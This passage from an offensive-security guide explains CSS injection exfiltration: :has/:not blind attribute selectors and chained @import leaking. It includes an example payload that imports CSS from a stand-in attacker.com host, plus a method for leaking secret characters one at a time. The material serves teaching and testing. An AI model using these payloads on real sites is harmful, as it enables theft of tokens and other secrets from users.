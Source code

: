 ### Blind Attribute Selector

As [**explained in this post**](https://portswigger.net/research/blind-css-exfiltration), it's possible to combine the selectors **`:has`** and **`:not`** to identify content even from blind elements. This is very useful when you have no idea what is inside the web page loading the CSS injection.\
It's also possible to use those selectors to extract information from several block of the same type like in:

```html
<style>
  html:has(input[name^="m"]):not(input[name="mytoken"]) {
    background: url(/m);
  }
</style>
<input name="mytoken" value="1337" />
<input name="myname" value="gareth" />
```

Combining this with the following **@import** technique, it's possible to exfiltrate a lot of **info using CSS injection from blind pages with** [**blind-css-exfiltration**](https://github.com/hackvertor/blind-css-exfiltration)**.**

### @import

The previous technique has some drawbacks, check the prerequisites. You either need to be able to **send multiple links to the victim**, or you need to be able to **iframe the CSS injection vulnerable page**.

However, there is another clever technique that uses **CSS `@import`** to improve the quality of the technique.

This was first showed by [**Pepe Vila**](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf) and it works like this:

Instead of loading the same page once and again with tens of different payloads each time (like in the previous one), we are going to **load the page just once and just with an import to the attackers server** (this is the payload to send to the victim):

```css
@import url("//attacker.com:5001/start?");
```

1. The import is going to **receive some CSS script** from the attackers and the **browser will load it**.
2. The first part of the CSS script the attacker will send is **another `@import` to the attackers server again.**
   1. The attackers server won't respond this request yet, as we want to leak some chars and then respond this import with the payload to leak the next ones.
3. The second and bigger part of the payload is going to be an **attribute selector leakage payload**
   1. This will send to the attackers server the **first char of the secret and the last one**
4. Once the attackers server has received the **first and last char of the secret**, it will **respond the import requested in the step 2**.
   1. The response is going to be exactly the same as the **steps 2, 3 and 4**, but this time it will try to **find the second char of the secret and then penultimate**.
